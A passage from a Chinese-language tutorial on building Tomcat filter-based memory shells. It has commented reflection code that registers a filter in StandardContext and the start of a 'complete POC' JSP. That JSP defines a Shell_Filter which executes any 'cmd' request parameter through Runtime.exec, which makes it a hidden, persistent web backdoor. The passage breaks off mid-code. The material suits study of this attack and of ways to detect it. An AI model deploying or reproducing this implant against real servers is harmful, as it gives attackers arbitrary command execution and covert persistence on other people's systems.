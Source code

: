 #### 4.2.3.4、封装`filterConfig`及`filterDef`到`filterConfigs`

```java
// 通过反射获取了 StandardContext 类中名为 "filterConfigs" 的字段，并将其存储在 Configs 变量中。
Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
// 将 Configs 这个字段对象设为可访问，即使这个字段在正常情况下是私有的，也可以通过反射进行访问。
Configs.setAccessible(true);
// 反射获取了 standardContext 对象中 filterConfigs 字段的值，并将其转换为 Map 类型，存储在 filterConfigs 变量中。
// 这个 filterConfigs 变量应该是一个保存过滤器配置的 Map。
Map filterConfigs = (Map) Configs.get(standardContext);

// 通过反射获取了 ApplicationFilterConfig 类中接受 Context 和 FilterDef 参数的构造函数。
Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class,FilterDef.class);
// 将 constructor 这个构造函数对象设为可访问，即使这个构造函数在正常情况下是私有的，也可以通过反射进行访问。
constructor.setAccessible(true);
// 反射调用了 constructor 构造函数对象的 newInstance 方法，创建了一个 ApplicationFilterConfig 类型的对象，并将 standardContext 和 filterDef 作为参数传入。
ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext,filterDef);
// 将新创建的 filterConfig 对象以及对应的名称 name 添加到 filterConfigs Map 中，即向 standardContext 中的过滤器配置中添加了一个新的过滤器配置。
filterConfigs.put(name, filterConfig);
```

### 4.2.4、完整POC

```java
<%@ page import="java.io.IOException" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page import="java.util.Map" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
 
 
<%
    ServletContext servletContext = request.getSession().getServletContext();
    Field appContextField = servletContext.getClass().getDeclaredField("context");
    appContextField.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appContextField.get(servletContext);
    Field standardContextField = applicationContext.getClass().getDeclaredField("context");
    standardContextField.setAccessible(true);
    StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);
%>
 
<%! public class Shell_Filter implements Filter {
        public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
            String cmd = request.getParameter("cmd");
            if (cmd != null) {
                try {
                    Runtime.getRuntime().exec(cmd);
                } catch (IOException e) {
                    e.printStackTrace();
                } catch (NullPointerException n) {
                    n.printStackTrace();
```